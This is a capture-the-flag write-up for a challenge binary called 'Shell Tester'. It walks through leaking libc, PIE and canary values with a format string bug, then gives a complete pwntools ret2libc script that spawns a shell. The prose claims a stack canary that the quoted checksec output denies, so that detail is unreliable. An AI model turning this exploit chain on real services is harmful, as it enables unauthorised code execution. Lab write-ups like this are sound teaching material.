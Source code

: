 # Shell Tester
# Description

Come and test our shell if you can. { server_addr }

### Author

momiji

### Points

150

# Write-up

This challenge includes two vulnerability: format string and buffer overflow. 
This binary is fully protected with stack canary and PIE.

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

Now, hold yourself together, this is simpler than you might think. Since we have 
format string vulnerability we can leak pretty much everything from libc address, 
PIE offset and stack canary, so the idea is to leak everything we need and do 
a buffer overflow, what I decided to do here is leaking `rsi` register since 
the last call before `printf` is `fgets` and `rsi` is now hold the address for 
`_IO_2_1_stdin_ + 131` we can confirm this by using debugging tools like `gdb`.

```
[#0] Id 1, Name: "vuln", stopped 0x7ffff7eb36dd in __GI___libc_read (), reason: SIGINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7eb36dd → __GI___libc_read(fd=0x0, buf=0x7ffff7f97963 <_IO_2_1_stdin_+131>, nbytes=0x1)
[#1] 0x7ffff7e397a1 → _IO_new_file_underflow(fp=0x7ffff7f978e0 <_IO_2_1_stdin_>)
[#2] 0x7ffff7e3ba7b → __GI__IO_default_uflow(fp=0x7ffff7f978e0 <_IO_2_1_stdin_>)
[#3] 0x7ffff7e2ebba → __GI__IO_getline_info(fp=0x7ffff7f978e0 <_IO_2_1_stdin_>, buf=0x7fffffffded0 "\377\377\377\377\377\377\377\377", n=0x1336, delim=0xa, extract_delim=0x1, eof=0x0)
[#4] 0x7ffff7e2ecb8 → __GI__IO_getline(fp=0x7ffff7f978e0 <_IO_2_1_stdin_>, buf=0x7fffffffded0 "\377\377\377\377\377\377\377\377", n=<optimized out>, delim=0xa, extract_delim=0x1)
[#5] 0x7ffff7e2da0a → _IO_fgets(buf=0x7fffffffded0 "\377\377\377\377\377\377\377\377", n=<optimized out>, fp=0x7ffff7f978e0 <_IO_2_1_stdin_>)
[#6] 0x555555555230 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/xg 0x7ffff7f97963
0x7ffff7f97963 <_IO_2_1_stdin_+131>:	0xf99720000000000a
```

Now what we have to do is finding an offset to PIE and canary and leak them.
With everything setup, all we have to do is a ret2libc attack and we are done.

Script:

```python
from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)
if args.REMOTE:
    io = remote("localhost", 13339)
    libc = ELF("./libc.so.6")
else:
    io = process()
    # gdb.attach(io)
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)

leak_payload = b"%p-%31$p-%47$p"
io.sendlineafter(b"?\n", leak_payload)

leak = io.recvline().split(b"-")
stdin = int(leak[0][2:], 16)
pie_main = int(leak[1][2:], 16)
canary = int(leak[2][2:-1], 16)

log.info(f"LEAK STDIN = {hex(stdin)}")
log.info(f"LEAK PIE_MAIN = {hex(pie_main)}")
log.info(f"LEAK CANARY = {hex(canary)}")

pie_base = pie_main - elf.symbols["main"]
libc_base = stdin - libc.symbols["_IO_2_1_stdin_"] - 131
log.info(f"BASE LIBC = {hex(libc_base)}")
system = libc_base + libc.symbols["system"]
binsh = libc_base + next(libc.search(b"/bin/sh"))
libc_rop = ROP(libc)
pop_rdi = libc_base + libc_rop.find_gadget(["pop rdi", "ret"])[0]
ret = pie_base + 0x1016

offset = 0xb0
payload = b"x" * (offset - 0x8) + p64(canary) + p64(0) + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendlineafter(b"?\n", payload)
io.interactive()
```

